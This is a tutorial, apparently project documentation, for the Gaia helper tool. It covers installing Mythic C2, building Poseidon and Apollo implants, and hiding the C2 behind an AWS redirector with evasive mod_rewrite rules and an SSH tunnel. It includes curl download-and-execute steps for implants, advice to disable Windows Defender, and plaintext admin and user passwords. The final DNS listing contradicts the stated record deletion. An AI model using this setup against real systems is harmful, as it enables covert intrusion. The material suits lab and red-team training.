







First off, ensure you have satisfied the pre-requisites satisfied outlined in the [readme](./README.md#prerequisites). This guide covers an end to end installation and configuration of Mythic though Gaia, including usage of redirectors and custom domains. The domain provider I will be using for this is Porkbun, and the redirectors are in AWS. I am using Debian 13 for both the redirector and Mythic VM as well. 

The main workstation I am executing Gaia from is running Windows 11, but everything should also work in Linux. At the time of publication, I have not tested MacOS. Furthermore, the Mythic VM I have deployed here has an SSH key configured for authentication from my workstation called `id_ed25519`. If you noticed that I don't ever specify it, that's why. Paramiko, the library that handles SSH in Gaia can automatically load common key names. 

# Satisfying Prerequisites
Assuming you have a Debian, Ubuntu, or Kali box setup at this point, begin by cloning Gaia to your local workstation.
```
PS C:\tools\gaia_guide> git clone https://github.com/winterknight1337/Gaia.git
Cloning into 'Gaia'...
remote: Enumerating objects: 747, done.
remote: Counting objects: 100% (52/52), done.
remote: Compressing objects: 100% (25/25), done.
remote: Total 747 (delta 35), reused 39 (delta 27), pack-reused 695 (from 1)
Receiving objects: 100% (747/747), 144.23 KiB | 1.62 MiB/s, done.
Resolving deltas: 100% (493/493), done.
```

Next, we need to create the Python virtual environment.
```
PS C:\tools\gaia_guide> cd Gaia
PS C:\tools\gaia_guide\Gaia> python.exe -m venv .venv
PS C:\tools\gaia_guide\Gaia> .\.venv\Scripts\Activate.ps1
(.venv) PS C:\tools\gaia_guide\Gaia>
```

Then install dependencies from `requirements.txt`.
```
(.venv) PS C:\tools\gaia_guide\Gaia> pip install -r .\requirements.txt
Collecting aiohappyeyeballs==2.6.1 (from -r .\requirements.txt (line 1))
  Using cached aiohappyeyeballs-2.6.1-py3-none-any.whl.metadata (5.9 kB)
<...snip...>
[notice] A new release of pip is available: 25.0.1 -> 26.1.2
[notice] To update, run: python.exe -m pip install --upgrade pip
(.venv) PS C:\tools\gaia_guide\Gaia>
```

To ensure Gaia was pulled down correctly, issue the help command. Note that this also has the side effect of making a copy of the included `.env-template` and naming it `.env`.
```
(.venv) PS C:\tools\gaia_guide\Gaia> ./gaia -h
usage: gaia [-h] [-v] {install,auth,operation,user,payload,dns,redirector} ...

Lightweight helper tool to install and manage Mythic c2 with a focus on students, CTF players, Mythic developers, and security researchers

options:
  -h, --help                                            show this help message and exit
  -v, --version                                         Display software version

Modules:
  {install,auth,operation,user,payload,dns,redirector}
    install                                             Installs Mythic on Debian, Ubuntu, or Kali
    auth                                                Authenticate to Mythic
    operation                                           Manage operations in Mythic
    user                                                Manage users in Mythic
    payload                                             Manage payloads in Mythic
    dns                                                 Manage DNS records with 3rd party registrars
    redirector                                          Manage redirector configuration within public clouds
(.venv) PS C:\tools\gaia_guide\Gaia>
```
# Installing Mythic
Next, time to install Mythic and it's prerequisites. Note, this takes a while. Go grab some coffee, beer, snacks, whatever you want. Toss on a YouTube video while you are at it and come back to this in a bit. 
A quick note here is that any server you connect to with Gaia will automatically be added to `~/.ssh/known_hosts`. This is to prevent the need to have Gaia require manual intervention in the event it's deployment were to be entirely scripted out. So, if you check `~/.ssh/known_hosts` and see a bunch of random boxes in there over time, Gaia could be the cause. Especially if you use it to spin up and down redirectors often.
```
(.venv) PS C:\tools\gaia_guide\Gaia> ./gaia install --user winterknight -S 192.168.153.133 --install-updates --install-deps --install-mythic
###########################
# Updating remote system! #
###########################
Hit:1 http://deb.debian.org/debian bookworm InRelease
Hit:2 http://security.debian.org/debian-security bookworm-security InRelease
Hit:3 http://deb.debian.org/debian bookworm-updates **InRelease**
<...snip...>
###########################
# Installing Dependencies #
###########################
Updating apt sources!
Hit:1 http://deb.debian.org/debian bookworm InRelease
Hit:2 http://security.debian.org/debian-security bookworm-security InRelease
Hit:3 http://deb.debian.org/debian bookworm-updates InRelease
<...snip...>
Docker install completed
Cleaning up Docker install script
Cleaning up install_deps.sh script
#####################################################################
# Installing Mythic. This will take a while, so go get some coffee. #
#####################################################################
****Preparing to install Mythic! Standby!****
Pulling Mythic Repo
Building mythic-cli binary
<...snip...>
Cloning into '/opt/Mythic/tmp'...
WARN[0000] No services to build
[+] up 18/18
 ✔ Image ghcr.io/mythicc2profiles/ldap_browser:v0.0.2 Pulled                3.6s
 ✔ Container mythic_react                             Running               0.0s
 ✔ Container mythic_postgres                          Healthy               1.8s
 ✔ Container mythic_documentation                     Running               0.0s
 ✔ Container mythic_jupyter                           Healthy               2.3s
 ✔ Container mythic_server                            Healthy               2.8s
 ✔ Container mythic_graphql                           Healthy               2.8s
 ✔ Container mythic_rabbitmq                          Healthy               2.8s
 ✔ Container mythic_nginx                             Healthy               2.8s
 ✔ Container ldap_browser                             Started               2.9s
WARN[0000] No services to build
[+] up 1/1
 ✔ Container mythic_documentation Started                                   0.3s
Mythic webserver hosted and ready via HTTPS on port 7443!
Use mythic_admin:jPzi6uHFtjPkPHEmrVrakay93f1UPC to connect to the C2 server!
Dumping mythic_admin creds to creds.txt
Cleaning up install_mythic.sh script
#######################################
# Dumping mythic creds to local disk! #
#######################################
NOTE: If the password for `mythic_admin` is lost, run `grep "MYTHIC_ADMIN_PASSWORD" /opt/Mythic/.env | cut -d '"' -f 2` on the server mythic is installed on.
```
Yes, there are creds in there. No I don't care. The password is randomly generated and this server will be long gone before this hits GitHub. So, now we have Mythic functional. If you are already familiar with Mythic and don't need the rest of Gaia's features, you're off to the races! For the rest of us, let's continue! 

# Authenticating to Mythic
Next up we need to authenticate to Mythic so we can interact with it's API. We see when requesting help with the `auth` command, that there are 2 values pre-populated. Those are defaults that can be overridden.
```
(.venv) PS C:\tools\gaia_guide\Gaia> .\gaia.py auth -h
usage: gaia auth [-h] -S  -P 7443 -u mythic_admin -p

options:
  -h, --help               show this help message and exit
  -S, --server             Hostname or IP address of Mythic server
  -P, --port 7443          Port to access Mythic's web interface
  -u, --user mythic_admin  Target user for Mythic authentication
  -p, --password           Password for target user for Mythic authentication
```

Now, its time to authenticate to Mythic.
```
(.venv) PS C:\tools\gaia_guide\Gaia> .\gaia.py auth -S 192.168.153.133 -u mythic_admin -p
Password:
API token dumped to .env file
Mythic authentication successful!
```
If you inspect your `.env` file, you'll notice that `MYTHIC_LOGIN_SERVER_HOST`, `MYTHIC_LOGIN_SERVER_PORT`, `MYTHIC_API_KEY` and `MYTHIC_SERVER_USER` have automatically been populated for you. I will not be showing mine through this guide because it will have API keys that I actually use and would like to not have cryptominers or AI related charges to my credit card. Note this means if you have the relevant value populated in `.env` already, Gaia will automatically pull it if you don't specify it in the CLI, or will update the value if you do specify it in the CLI.

# User Creation
Now we have authenticated to Mythic. Let's create new users. We can do this in 2 ways. Either providing username via the CLI or through a file. Let's start with the CLI. We will also output the passwords to the terminal.
```
(.venv) PS C:\tools\gaia_guide\Gaia> .\gaia.py user create -u test1 --cred-stdout
Merging user file and cli specified users into a single list.
Creating new Mythic users.
test1:yeuUermiGvsjqnDZ
```
So now we could either log into the Mythic UI directly with those credentials, or through the `auth` command. 

Next up, creating 2 more users with a file. Here's the contents of `user.txt`, which I stored in the Gaia project root.
```
test2
test3
```

Then we use the file to create new users. Here we also dump the creds to `creds.txt`, also in the Gaia project root.
```
(.venv) PS C:\tools\gaia_guide\Gaia> .\gaia.py user create -l users.txt -d creds.txt
Reading user list from file.
Merging user file and cli specified users into a single list.
Creating new Mythic users.
Dumping new Mythic user credentials to disk.

(.venv) PS C:\tools\gaia_guide\Gaia> type .\creds.txt
test2:0pcDmnTuGVHOOtSZ
test3:64XzePIPp8CxRsPz
```

We can even combine the 2 methods! First update `users.txt` to generate new users. 
```
test4
test5
```

Then fire it off again, but this time adding a 3rd user. We specified `test6` in the CLI then dump all the new creds `creds.txt`, appending to the file.
```
(.venv) PS C:\tools\gaia_guide\Gaia> type .\creds.txt
test2:0pcDmnTuGVHOOtSZ
test3:64XzePIPp8CxRsPz
test4:kIiUMnllHH2L48KP
test5:OuCajjPD3LseR0Ko
test6:2ywzXrH0DQS3XWDB
```

Note that if you end up specifying the same user, you could have some issues. I'd recommend going into Hasura and deleting the user records from the operator table and re-creating them. In case of a user conflict, use the older credentials if you don't want to go to hasura to delete the users first. You can get to Hasura in the Mythic UI, then retrieve the password by running `sudo cat /opt/Mythic/.env | grep HASURA_SECRET`. Future versions of Gaia will support more robust user management.

# Operation Creation
Now, let's check out what operations are available to us.
```
(.venv) PS C:\tools\gaia_guide\Gaia> .\gaia.py operation list
Current operations in Mythic:
Operation Chimera
```
Looks like it's just the default Operation Chimera. Since this is a fresh install, this is expected. 

Next up, time to create a new operation and assign some users. Lets start by creating a new operation. Creating a new operation will also update `MYTHIC_OPERATION_NAME` in `.env`.
```
(.venv) PS C:\tools\gaia_guide\Gaia> .\gaia.py operation create -n SpecterOp
```

Now let's assign a few users to this operation. Note this feature does not yet support feeding users from a file, but it is planned for the future.
```
(.venv) PS C:\tools\gaia_guide\Gaia> .\gaia.py operation assign -o SpecterOp -u test1 test2 test3
Assigning users to operation
Assigned user test1 to operation SpecterOp
Assigned user test2 to operation SpecterOp
Assigned user test3 to operation SpecterOp
```

Optional: Next, I'll add Mythic webhooks to Discord. We use these when monitoring callbacks and errors. 
```
(.venv) PS C:\tools\gaia_guide\Gaia> ./gaia.py operation webhook config discord --url https://discord.com/api/webhooks/<server_id>/<string> -o "SpecterOp"
```

# Payload Creation
Okay, we have some users, and we have some operations. Let's start by getting a local payload. This payload will be executed from the Mythic server because I am lazy and don't want to spin up another VM. We can use either Athena or Poseidon for this. I prefer Poseidon personally. The amount of time it will take to build these payloads will vary greatly based on how powerful your Mythic server is. You can safely ignore that last line, I'm not sure what causes it yet but it's harmless. When you execute this command, `.env` updates the `MYTHIC_HTTP_CALLBACK_URL_BASE`, `MYTHIC_HTTP_CALLBACK_PORT`, and `MYTHIC_HTTP_CALLBACK_KILLDATE` values.
```
(.venv) PS C:\tools\gaia_guide\Gaia> .\gaia.py payload create poseidon -n notposeidon -u http://192.168.153.133 -k 2026-08-09 -p 80 -o linux
Poseidon linux x64 elf building
Poseidon linux x64 elf built
Poseidon linux arm64 elf building
Poseidon linux arm64 elf built
Ignoring exception in _clean_close: ConnectionClosedError(None, None, None)
```

If you check out the web UI, you'll see 2 Poseidon payloads waiting for you.



On the x64 Static ELF, I'll click on Actions > View Payload Configuration > Right-click URL > Copy Link. Then go to your Mythic VM (or another Linux VM). We are using curl to pull down the payload, `-k` to ignore curl's certificate warning, then `-o` to specify the file output name. Next, change the permissions to allow execution before executing the payload.
```
winterknight@debian:~$ curl -k https://192.168.153.133:7443/direct/download/8724261d-879c-4b16-ad7d-9591ef28073e -o poseidon
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 8578k  100 8578k    0     0   446M      0 --:--:-- --:--:-- --:--:--  465M
winterknight@debian:~$ chmod 770 poseidon 
winterknight@debian:~$ ./poseidon 
```

Once you execute the payload, the terminal will hang. If you go back to your Mythic UI, you should see a callback waiting for you.



If you were only looking for how to use Gaia locally, or in a lab, you're all done here! At this point it's time to showcase using Gaia to create payloads that go over the internet and through redirectors before landing in your Mythic server!

# Shifting to redirectors
Next, let's create an Apollo payload that goes to `www.thislookslegit.net` for use with a redirector we will create later. We are doing this over https and specifying port 443 this time. Note you want this to be a domain you own so you can create records for it. 
```
(.venv) PS C:\tools\gaia_guide\Gaia> .\gaia.py payload create apollo -n notapollo -u https://www.thislookslegit.net -k 2026-08-09 -p 443
Apollo portable executable building
Apollo portable executable built
Apollo shellcode building
Apollo shellcode built
Apollo service executable building
Apollo service executable built
Ignoring exception in _clean_close: ConnectionClosedError(None, None, None)
```

If you check Mythic again, you'll see the new payloads in the payloads menu.


## Creating Redirectors
So, next we need to create a redirector. Fortunately, the help menu in Gaia essentially acts as a todo list, with the exception of delete. Deleting infra just after making it would be silly.
```
(.venv) PS C:\tools\gaia_guide\Gaia> .\gaia.py redirector -h
usage: gaia redirector [-h] {create,delete,certbot,generate,tunnel} ...

options:
  -h, --help                               show this help message and exit

Redirector Actions:
  Manage redirectors

  {create,delete,certbot,generate,tunnel}
    create                                 Create a new redirector
    delete                                 Delete a redirector
    certbot                                Install Certbot and enable HTTPS on a redirector
    generate                               Generate redirector rules based on existing payload in Mythic and upload them to redirector
    tunnel                                 Configure SSH tunnel between Mythic server and redirector
```

First up, creating the redirector. As of now, only AWS is supported but Azure is planned to be supported in the future. Let's get the help menu.
```
(.venv) PS C:\tools\gaia_guide\Gaia> .\gaia.py redirector create aws -h
usage: gaia redirector create aws [-h] [-a] [-s] -S {t2.small,t2,medium,t3.micro,t3.small,t3.medium} [-r REGION] -o {debian,ubuntu}

options:
  -h, --help                                                            show this help message and exit
  -a, --access-key                                                      Enter the AWS access key when requested
  -s, --secret-key                                                      Enter the AWS secret key when requested
  -S, --size {t2.micro,t2.small,t2,medium,t3.micro,t3.small,t3.medium}  Size of redirector EC2
  -r, --region REGION                                                   Create redirector in target AWS region
  -o, --os {debian,ubuntu}                                              Specify OS for the redirector
```

Now that we know what levers we have to pull, let's create a redirector! Like with Mythic installation, this takes some time. To build the redirector, Gaia first performs the following actions:
1. Create the EC2 keypair
2. Create the Security Group
3. Launch the EC2
4. Ensures all created assets are tagged with `createdBy:gaia`

Once the EC2 is built, then Gaia handles some post-build configuration:
1. Authenticate into the EC2 with default user for that OS and `gaia-redir.pem`
2. Update the EC2
3. Reboot the EC2
4. Install Apache
5. Enable `rewrite` `proxy` and `proxy_http`
6. Create a new entry in `/etc/apache2/sites-enabled/000-default.conf` to allow usage of `.htaccess` files.
7. Creates an empty `.htaccess` file at `/var/www/html`
8. Installs Certbot

Here's what all that looks like (to some extent, the output is long). `.env` will update the following values `AWS_ACCESS_KEY_ID`, `AWS_SECRET_ACCESS_KEY`, `AWS_DEFAULT_REGION`, `REDIRECTOR_PUBLIC_IP`, `REDIRECTOR_OS`, `REDIRECTOR_USER`
```
(.venv) PS C:\tools\gaia_guide\Gaia> .\gaia.py redirector create aws -S t3.micro -r us-east-2 -o debian -a -s
AWS Access Key:
AWS Secret Key:
Connecting to AWS
Creating gaia-redir keypair for EC2
Creating EC2 Security Group.
Allowing SSH, HTTP, and HTTPS into EC2 Instance.
Launching EC2.
Sleeping for 60 seconds to allow EC2 to provision VM.
Grabbing instance's public IP.
Connecting to EC2 instance over SSH.
Updating EC2 before rebooting.
Get:1 file:/etc/apt/mirrors/debian.list Mirrorlist [38 B]
Get:2 file:/etc/apt/mirrors/debian-security.list Mirrorlist [47 B]
<...snip...>
Successfully installed ConfigArgParse-1.7.5 PyOpenSSL-26.3.0 acme-5.7.0 certbot-5.7.0 certbot-apache-5.7.0 certifi-2026.7.22 cffi-2.1.0 charset_normalizer-3.4.9 configobj-5.0.9 cryptography-49.0.0 distro-1.9.0 idna-3.18 josepy-2.2.0 parsedatetime-2.6 pycparser-3.0 pyrfc3339-2.1.0 python-augeas-1.2.0 requests-2.34.2 urllib3-2.7.0
Cleaning up install_apache.sh script
EC2 created! Public IP address for the EC2 is 13.59.54.21. The default user for your instance is admin.
```

Next we need to make sure the redirector was spun up properly. We can use redirector list for this.
```
./gaia redirector list aws
Getting Gaia EC2s from AWS
Instances in account:
ID: i-0da415d00a5d16257  Status: running  Size: t3.micro  Arch: x86_64  Public IP: 13.59.54.21
```
Gaia determines that a redirector was created by it by tagging `createdBy:gaia` on EC2 resource creation. When Gaia queries for EC2 instances, it uses this tag to determine if it's Gaia affiliated or not, then skips the resource if it's not.

## DNS Configuration
We then need to make a quick jump over to DNS config. Time to get an A record created for the server, but first, to figure out what's in our Porkbun account. When we auth to Porkbun with the API keys, the `PORKBUN_API_KEY` and `PORKBUN_SECRET_KEY` gets updated to `.env`.
```
(.venv) PS C:\tools\gaia_guide\Gaia> .\gaia.py dns porkbun list -k -s
Porkbun API Key:
Porkbun Secret Key:
Active domains:
thislookslegit.net
```

The idea here is to have with a blank throwaway domain you'd use for C2 and nothing else. This is best so you don't degrade your trust ratings on your legitimate domains. So, I'm assuming that you have a domain that doesn't have anything else in it. So we can use `thislookslegit.net` as our C2 domain.
```
.\gaia.py dns porkbun list --domain thislookslegit.net
Name: thislookslegit.net  Type: MX  Value: fwd1.porkbun.com
Name: thislookslegit.net  Type: MX  Value: fwd2.porkbun.com
Name: thislookslegit.net  Type: NS  Value: curitiba.porkbun.com
Name: thislookslegit.net  Type: NS  Value: fortaleza.porkbun.com
Name: thislookslegit.net  Type: NS  Value: maceio.porkbun.com
Name: thislookslegit.net  Type: NS  Value: salvador.porkbun.com
Name: thislookslegit.net  Type: TXT  Value: v=spf1 include:_spf.porkbun.com ~all
```
Note that the MX, NS, and TXT records are default and pre-populated by Porkbun. Best to leave those alonse. 

Time to create that A record using the EC2's public IP.
```
(.venv) PS C:\tools\gaia_guide\Gaia> .\gaia.py dns porkbun create -d thislookslegit.net -n www -v 13.59.54.21 -t a
Created requested domain record.
```

Let's check Porkbun to make sure the record was added properly. The other domain records come by default with Porkbun and were not added manually by me, or Gaia.




## Requesting TLS Certificates
Next, creating a certificate with `certbot`. This will enable HTTPS on your redirector site. This will also update `REDIRECTOR_PUBLIC_HOST` in `.env` with the value of `-S`. `-S` can also be the FQDN of the redirector.
```
(.venv) PS C:\tools\gaia_guide\Gaia> .\gaia.py redirector certbot -d www.thislookslegit.net -S 13.59.54.21 -u admin -i C:\\users\\winterknight\\.ssh\\gaia-redir.pem
Connecting to redirector.
Running certbot.
Account registered.
Requesting a certificate for www.thislookslegit.net

Successfully received certificate.
Certificate is saved at: /etc/letsencrypt/live/www.thislookslegit.net/fullchain.pem
Key is saved at:         /etc/letsencrypt/live/www.thislookslegit.net/privkey.pem
This certificate expires on 2026-10-25.
These files will be updated when the certificate renews.

Deploying certificate
Successfully deployed certificate for www.thislookslegit.net to /etc/apache2/sites-available/000-default-le-ssl.conf
Congratulations! You have successfully enabled HTTPS on https://www.thislookslegit.net
NEXT STEPS:
- The certificate will need to be renewed before it expires. Certbot can automatically renew the certificate in the background, but you may need to take steps to enable that functionality. See https://certbot.org/renewal-setup for instructions.

- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
If you like Certbot, please consider supporting our work by:
 * Donating to ISRG / Let's Encrypt:   https://letsencrypt.org/donate
 * Donating to EFF:                    https://eff.org/donate-le
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
```

## Generate redirector rules
Time to get the UUID of a payload so we can create our `mod_rewrite` rules for it. In this case we want the `notapollo.exe` payload.
```
(.venv) PS C:\tools\gaia_guide\Gaia> .\gaia.py payload list
Current Payloads:
{'payload_uuid': 'b427f8ba-b392-4329-b320-6bab1a3e45fb', 'payload_type': 'poseidon', 'payload_file_name': 'notposeidon', 'payload_description': 'Linux arm64 Static ELF'}
{'payload_uuid': '2cdd6126-a7bd-432b-9834-e2e837769bb6', 'payload_type': 'poseidon', 'payload_file_name': 'notposeidon', 'payload_description': 'Linux x64 Static ELF'}
{'payload_uuid': '03034993-538a-4f2f-8b5a-51d9b4bb854a', 'payload_type': 'apollo', 'payload_file_name': 'notapollo.bin', 'payload_description': 'Windows x64 Shellcode'}
{'payload_uuid': '0546277f-5184-4739-ace3-9a65e44661fa', 'payload_type': 'apollo', 'payload_file_name': 'notapollo.exe', 'payload_description': 'Windows x64 .NET Framework Portable Executable'}
{'payload_uuid': 'ddd3e897-c4e5-45da-866e-c744f503e922', 'payload_type': 'apollo', 'payload_file_name': 'notapolloSvc.exe', 'payload_description': 'Windows x64 .NET Framework Service Executable'}
```

Next, we use the UUID to generate the `mod_rewrite` file. This uses Mythic's built in ability to generate `mod_rewrite` rules based on [@threatexpress](https://github.com/threatexpress)'s [mythic2modrewrite](https://github.com/threatexpress/mythic2modrewrite) project. Note that you must specify the protocol handler, else it will redirect to another file on disk. Ask me how I know 🙃.
```
(.venv) PS C:\tools\gaia_guide\Gaia> .\gaia.py redirector generate -u 0546277f-5184-4739-ace3-9a65e44661fa -t https://www.google.com -rS www.thislookslegit.net -ru admin -ri C:\\users\\shad\\.ssh\\gaia-redir.pem
Generating base redirector rules.
Modifying redirector rules to ensure they work with given parameters.
Saving redirector rules on disk as .htaccess.
Connecting to redirector.
Copying .htaccess to redirector.
Moving .htaccess to /var/www/html/ and reloading apache.
Redirector file successfully configured!
```

If you check Gaia's project directory, you can see `.htaccess` as it was sent to the redirector. Once Mythic generates the file, Gaia modifies the target destination and the URI (`/data` when created with Gaia) before dumping it to local disk. Next, Gaia copies the file to the redirector over SFTP, then executes shell commands to move it to the final location on the server. Finally, it modifies permissions and reloads Apache so changes take effect. Here's an example of what the `.htaccess` file looks like on disk. If the traffic pattern matches C2 traffic, then it redirects to localhost on port 8443, where it will be sent to Mythic once the SSH tunnel is built.
```
#Redirect Rules Check for http
#mod_rewrite rules generated from @AndrewChiles' project https://github.com/threatexpress/mythic2modrewrite:
#       Replace 'C2_SERVER_HERE' with the IP/Domain address of where matching traffic should go
#       Replace 'redirect' with the http(s) address of where non-matching traffic should go, ex: https://redirect.com


########################################
## .htaccess START
RewriteEngine On
## C2 Traffic (HTTP-GET, HTTP-POST, HTTP-STAGER URIs)
## Logic: If a requested URI AND the User-Agent matches, proxy the connection to the Teamserver
## Consider adding other HTTP checks to fine tune the check.  (HTTP Cookie, HTTP Referer, HTTP Query String, etc)
## Refer to http://httpd.apache.org/docs/current/mod/mod_rewrite.html

## Only allow GET and POST methods to pass to the C2 server
RewriteCond %{REQUEST_METHOD} ^(GET|POST) [NC]
## Profile URIs
RewriteCond %{REQUEST_URI} ^(/data.*)$
## Profile UserAgent
RewriteCond %{HTTP_USER_AGENT} "Mozilla/5.0 \(Windows NT 6.3; Trident/7.0; rv:11.0\) like Gecko"
RewriteRule ^.*$ "http://localhost:8443%{REQUEST_URI}" [P,L]

## Redirect all other traffic here
RewriteRule ^.*$ "https://www.google.com" [L,R=302]
## .htaccess END
########################################
```

## Connect Redirector to the Mythic Server
If you go to the website that the redirector hosts now, you'll notice you wind up on Google instead. Awesome. Almost done! Time to build out the SSH tunnel, then fire that payload. Which means reading more docs.
```
(.venv) PS C:\tools\gaia_guide\Gaia> .\gaia.py redirector tunnel -h
usage: gaia redirector tunnel [-h] -mS  [-mP ] -mu  [-mp ] [-mi path/to/file] -rS  -ru

options:
  -h, --help                                    show this help message and exit
  -mS, --mythic-server                          Hostname or IP address of Mythic server
  -mP, --mythic-ssh-port                        SSH port for Mythic server
  -mu, --mythic-ssh-user                        User to authenticate as over SSH on redirector server
  -mp, --mythic-ssh-password                    Mythic SSH user password or SSH key passphrase
  -mi, --mythic-ssh-identity-file path/to/file  SSH key for authentication
  -rS, --redir-server                           Hostname or IP address of redirector server
  -ru, --redir-ssh-user                         User to authenticate as over SSH on redirector server
```

Now, to build the tunnel. Gaia creates a systemd service that wraps `autossh`. This allows the SSH tunnel to persist even after we disconnect from the Mythic server after creating the tunnel. This also allows some method of self-healing if the tunnel were to go down. Furthermore, this SSH tunnel is a bit weird. It's not a normal remote admin SSH tunnel, but instead redirects ports and doesn't provide any user a shell. It just proxies traffic from the redirector on port 8443 to port 80 on the Mythic server. If you want to learn more about SSH and how awesome it is, I highly recommend Graham Helton's [blog post](https://grahamhelton.com/blog/ssh-cheatsheet) on it.
```
(.venv) PS C:\tools\gaia_guide\Gaia> .\gaia.py redirector tunnel -mS 192.168.153.133 -mu winterknight -rS www.thislookslegit.net -ru admin
Connecting to Mythic server.
Copying Gaia-created SSH key for redirector to Mythic server.
Creating systemd service file to build SSH tunnel on redirector.
Modifying systemd service file with specified parameters.
Saving modified systemd service file on disk before sending it to Mythic server.
Copying finished systemd service file to Mythic server, enabling the new service, and building the SSH tunnel to redirector.
SSH tunnel and service successfully created!
```

## Payload Test
Time to test the payload! Since Apollo is *not evasive*, we will first need to turn off Windows Defender.



Then we will download and execute Apollo onto our Windows workstation and see that it works! 
```
PS C:\tools> curl.exe -k https://192.168.153.133:7443/direct/download/b7256efe-8741-4bc2-ae08-f0e08917cfa6 -o apollo.exe
  % Total    % Received % Xferd  Average Speed  Time    Time    Time   Current
                                 Dload  Upload  Total   Spent   Left   Speed
100  1.68M 100  1.68M   0      0 48.38M      0                              0
PS C:\tools> .\apollo.exe
```

And if you did it all correctly, you should see a callback going through the redirector! 


# Tearin' it down!
For CCDC, this is more or less where infrastructure stops. However, we don't want to rack up AWS charges all day, so lets take the infrastructure down. First thing we will have to do is stop payload execution either by using `CTRL+C` or Task Manager. 

## Tearing down Redirectors
Once that's done, we will delete the EC2 and it's associated components. Gaia identifies components to delete using those `createdBy:gaia` tags I mentioned when we spun up the redirector. It searches for EC2 Keypairs, Security Groups, and Instances with those tags before deleting them.
```
(.venv) PS C:\tools\gaia_guide\Gaia> .\gaia.py redirector delete aws
Getting Gaia EC2s from AWS
Getting Gaia SSH keys from AWS.
Getting Gaia Security Groups from AWS.
Terminating Gaia related EC2 instances.
Sleeping for 2 minutes to allow EC2 instances to terminate.
Deleting Gaia SSH Keys within EC2.
Deleting local copy of SSH key for Gaia.
Deleting Gaia Security Groups.
Gaia cleanup complete!
```
If you check your AWS console, you'll notice that the EC2 is gone, along with the `Webservers` security group, and the `gaia-redir.pem` keypair. You will also notice that `~/.ssh/gaia-redir.pem` was deleted from your local system, so Gaia does not leave SSH keys on your system once they are of no more use. 

## Deleting DNS records
Next up, deleting the A record we created earlier. Despite the resource that backed it being gone, it used a public IP address from AWS. At some point, another EC2 could spin up and take the IP, effectively hijacking the domain. This is a way to perform a subdomain takeover. 
```
(.venv) PS C:\tools\gaia_guide\Gaia> .\gaia.py dns porkbun delete -d thislookslegit.net -n www
Successfully deleted specified domain record.
```

Now we double check that we removed all the records properly.
```
./gaia.py dns porkbun list --domain thislookslegit.net
Name: www.thislookslegit.net  Type: A  Value: 13.59.54.21
Name: thislookslegit.net  Type: MX  Value: fwd1.porkbun.com
Name: thislookslegit.net  Type: MX  Value: fwd2.porkbun.com
Name: thislookslegit.net  Type: NS  Value: curitiba.porkbun.com
Name: thislookslegit.net  Type: NS  Value: fortaleza.porkbun.com
